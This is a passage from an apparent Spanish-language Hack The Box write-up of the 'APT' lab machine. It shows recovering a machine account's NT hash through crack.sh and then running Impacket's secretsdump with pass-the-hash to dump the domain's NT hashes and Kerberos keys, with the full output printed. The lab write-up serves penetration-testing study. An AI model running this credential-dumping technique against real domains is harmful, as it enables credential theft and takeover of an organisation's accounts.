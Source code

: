 Esto proporciona un token que en caso de proporcionarselo a la web [crack.sh](https://crack.sh/get-cracking), a través de un correo electrónico devuelve el hash NT y posteriormente dumpear el resto con secretsdump

<img src="/writeups/assets/img/APT-htb/7.png" alt="">

Una vez recibido el hash NT, puedo dumpear el resto con secretsdump

```null
secretsdump.py -hashes :d167c3238864b12f5f82feae86a7f798 'htb.local/APT$@htb.local'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c370bddf384a691d811ff3495e8a72e2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:738f00ed06dc528fd7ebb7a010e50849:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
henry.vinson:1105:aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb:::
henry.vinson_adm:1106:aad3b435b51404eeaad3b435b51404ee:4cd0db9103ee1cf87834760a34856fef:::
APT$:1001:aad3b435b51404eeaad3b435b51404ee:d167c3238864b12f5f82feae86a7f798:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:72f9fc8f3cd23768be8d37876d459ef09ab591a729924898e5d9b3c14db057e3
Administrator:aes128-cts-hmac-sha1-96:a3b0c1332eee9a89a2aada1bf8fd9413
Administrator:des-cbc-md5:0816d9d052239b8a
krbtgt:aes256-cts-hmac-sha1-96:b63635342a6d3dce76fcbca203f92da46be6cdd99c67eb233d0aaaaaa40914bb
krbtgt:aes128-cts-hmac-sha1-96:7735d98abc187848119416e08936799b
krbtgt:des-cbc-md5:f8c26238c2d976bf
henry.vinson:aes256-cts-hmac-sha1-96:63b23a7fd3df2f0add1e62ef85ea4c6c8dc79bb8d6a430ab3a1ef6994d1a99e2
henry.vinson:aes128-cts-hmac-sha1-96:0a55e9f5b1f7f28aef9b7792124af9af
henry.vinson:des-cbc-md5:73b6f71cae264fad
henry.vinson_adm:aes256-cts-hmac-sha1-96:f2299c6484e5af8e8c81777eaece865d54a499a2446ba2792c1089407425c3f4
henry.vinson_adm:aes128-cts-hmac-sha1-96:3d70c66c8a8635bdf70edf2f6062165b
henry.vinson_adm:des-cbc-md5:5df8682c8c07a179
APT$:aes256-cts-hmac-sha1-96:4c318c89595e1e3f2c608f3df56a091ecedc220be7b263f7269c412325930454
APT$:aes128-cts-hmac-sha1-96:bf1c1795c63ab278384f2ee1169872d9
APT$:des-cbc-md5:76c45245f104a4bf
```
